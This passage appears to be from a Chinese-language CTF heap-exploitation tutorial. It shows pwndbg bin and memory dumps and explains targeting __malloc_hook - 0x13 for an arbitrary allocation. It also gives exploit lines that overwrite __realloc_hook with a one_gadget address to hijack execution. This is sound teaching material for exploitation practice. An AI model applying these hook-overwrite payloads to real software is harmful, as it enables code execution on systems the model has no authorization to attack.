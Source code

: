 ```python
0x3d0 [ 98]: 0x0
0x3e0 [ 98]: 0x0
0x3f0 [ 98]: 0x0
0x400 [ 98]: 0x0
0x410 [ 98]: 0x0
fastbins
0x20: 0x0
0x30: 0x0
0x40: 0x0
0x50: 0x0
0x60: 0x0
0x70: 0x0
0x80: 0x0
unsortedbin
all: 0x555555757060 —▸ 0x7ffff7dcfca0 (main_arena+96) ◂— 0x555555757060 /* '`puUUU' */
smallbins
empty
largebins
empty
pwndbg> 
```

为什么要写入malloc_hook - 0x13的地址，来看一下此处的内存：

```python
pwndbg> x/16gx 0x00007ffff7dcfc1d
0x7ffff7dcfc1d:	0xfff7a7b480000000	0xfff7a7c80000007f
0x7ffff7dcfc2d <__realloc_hook+5>:	0x000000000000007f	0x0000000000000000
0x7ffff7dcfc3d:	0x0000000000000000	0x0000000000000000
0x7ffff7dcfc4d <main_arena+13>:	0x0000000000000000	0x0000000000000000
0x7ffff7dcfc5d <main_arena+29>:	0x0000000000000000	0x0000000000000000
0x7ffff7dcfc6d <main_arena+45>:	0x0000000000000000	0x0000000000000000
0x7ffff7dcfc7d <main_arena+61>:	0x0000000000000000	0x0000000000000000
0x7ffff7dcfc8d <main_arena+77>:	0x0000000000000000	0x0000000000000000
pwndbg> 
```

这里的内存显示有点奇怪，但是让我想到fastbin_attack中的**Arbitrary Alloc，详见：**

[PWN入门（3-11-2）-fastbin_attack中的Arbitrary Alloc（基础）](https://www.yuque.com/cyberangel/rg9gdm/pqol51)

这里应该是为了绕过高版本libc中所加的对tcache的限制（其机制应该和fastbin的一模一样），这里不多说了。

## 再次申请堆块，到__realloc_hook
```python
new(0x20)
edit(5, 'C' * (0x13 - 0x8) + p64(one) + p64(realloc + 8))
#
```

```python
pwndbg> heap
Allocated chunk | PREV_INUSE
Addr: 0x555555757000
Size: 0x61

Free chunk (unsortedbin) | PREV_INUSE
Addr: 0x555555757060
Size: 0x1f1
fd: 0x7ffff7dcfca0
bk: 0x7ffff7dcfca0

Allocated chunk
Addr: 0x555555757250
Size: 0x60

```
